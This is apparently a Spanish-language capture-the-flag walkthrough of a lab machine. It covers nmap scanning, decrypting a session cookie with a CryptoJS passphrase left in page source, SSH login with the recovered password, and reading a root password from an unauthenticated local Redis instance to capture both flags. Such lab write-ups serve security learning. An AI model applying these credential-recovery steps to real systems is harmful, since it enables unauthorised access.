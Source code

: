 # Summary
- IP: 192.168.0.108
- Ports: 22,80
- OS: Linux (Debian Buster)
- Services & Applications:
	-  22 -> OpenSSH 7.9p1 Debian 10+deb10u2
	-  80 -> Apache httpd 2.4.38

# Recon

- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.0.108 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p22,80 -sCV 192.168.0.108 -oN targeted
```

- Escaneo básico de página web:

```
$sudo nmap --script http-enum -p80 192.168.0.108 -oN webScan
```

- Analizamos el código fuente de la página web principal, vemos un main.js el cual contiene código con la función de CryptoJS con la respectiva contraseña.
- En el buscador encontramos una plantilla para usar la función de crypto JS y probamos introduciendo la cookie de sesión que parece estar cifrada para poder descifrarla:

```
// INIT
var encrypted   = "U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt";
var myPassword = "SecretPassphraseMomentum";


// PROCESS
var decrypted = CryptoJS.AES.decrypt(encrypted, myPassword);

document.getElementById("demo2").innerHTML = decrypted;
document.getElementById("demo3").innerHTML = decrypted.toString(CryptoJS.enc.Utf8);
--------------------------------------------------------------------------------------------------------------
Decrypted: 617578657272652d616c69656e756d2323

String after Decryption: auxerre-alienum##**
```

- Intentamos usar el stirng descrifrado como contraseña para acceder via ssh a la máquina con el usuario "auxerre":

```
$ssh auxerre@192.168.0.108
```

- Encontramos la flag de usuario:

# USER FLAG: 84157165c30ad34d18945b647ec7f647


# ESCALANDO PRIVILEGIOS:

- Hacemos búsqueda básica y no encontramos nada.
- Enumeramos los procesos activos y encontramos un redis-server corriendo en el puerto 6379:

```
ps -faux
```

- Comprobamos que dicho puerto esté abierto:

```
ss -nltp
```

- Nos conectamos al equipo local por el puerto 6379:

```
nc localhost 6379
```

- Consultamos que bases de datos están activas:

```
INFO keyspace
```

- Seleccionamos la base de datos existente

```
SELECT 0
```

- Mostramos las keys:

```
KEYS *
```

- Leemos la key encontrada:

```
GET rootpass
```

- Obtenemos la credencial de root, accedemos y obtenemos la flag:

# ROOT FLAG: 658ff660fdac0b079ea78238e5996e40


